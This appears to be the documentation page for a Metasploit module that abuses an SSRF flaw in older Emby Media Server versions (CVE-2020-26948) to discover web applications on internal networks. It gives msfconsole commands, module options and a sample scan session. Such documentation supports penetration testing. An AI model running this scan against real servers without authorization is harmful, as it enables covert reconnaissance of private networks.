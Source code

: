 ## Vulnerable Application
This module has been tested on Emby Media Server versions older than 4.5.

### Description

Generates a GET request to the provided web servers and executes an SSRF against the targeted EMBY server.
Returns the server header, HTML title, and location header. This is useful for rapidly identifying  web applications
on the internal network using the Emby SSRF vulnerability (CVE-2020-26948).

## Verification Steps

  1. Do: `use auxiliary/scanner/http/emby_ssrf_scanner`
  2. Do: `set rhosts [ips]`
  3. Do: `set emby_server [emby_server_ip]`
  4. Do: `run`

## Options

### PORTS

Select which ports to check for HTTP servers internal to the Emby server. Defaults to `80,8080,8081,8888`.

### EMBY_SERVER

IP address of the Emby server to use. Required.

### EMBY_PORT

Emby server access port. Defaults to 8096.
### SHOW_TITLES

If set to `false`, will not show the titles on the console as they are grabbed. Defaults to `true`.
### STORE_NOTES

If set to `false`, will not store the captured information in notes. Use `notes -t http.title` to view. Defaults to `true`.

## Scenarios

### Emby Server (v4.4.3 on Ubuntu) - Scan Internal 192.168.2.0 Network

```
msf6 > use auxiliary/scanner/http/emby_ssrf_scanner
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > set emby_server 10.10.200.32
emby_server => 10.10.200.32
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > set rhosts 192.168.2.3
rhosts => 192.168.2.3
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > run

[+] 192.168.2.3:8096 Title: Emby
[+] 192.168.2.3:8096     HTTP Code: 200
[+] 192.168.2.3:8096     Location Header:
[+] 192.168.2.3:8096     Server Header: UPnP/1.0 DLNADOC/1.50
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

